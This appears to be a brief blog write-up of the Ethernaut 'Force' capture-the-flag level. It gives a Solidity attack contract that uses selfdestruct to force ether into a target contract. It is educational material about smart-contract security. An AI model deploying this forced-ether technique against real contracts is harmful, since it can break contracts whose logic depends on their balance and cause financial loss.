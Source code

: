 +++
title = 'Ethernaut Level 7 - Force'
date = 2024-08-04
draft = false

featured_image =  '/images/ethernaut.png'
background_image= '/images/ethernaut.png'
summary = 'Selfdestruct to win'
tags = [ 'writeups' , 'blockchain' ]
+++

```solidity
// SPDX-License-Identifier: GPL-3.0

pragma solidity ^0.8.2;

interface EtherGame {}

// Mostly copied from https://solidity-by-example.org/hacks/self-destruct/
contract Attack {
    EtherGame etherGame;

    constructor(EtherGame _etherGame) {
        etherGame = EtherGame(_etherGame);
    }

    function attack() public payable {

        // cast address to payable
        address payable addr = payable(address(etherGame));
        selfdestruct(addr);
    }
}

```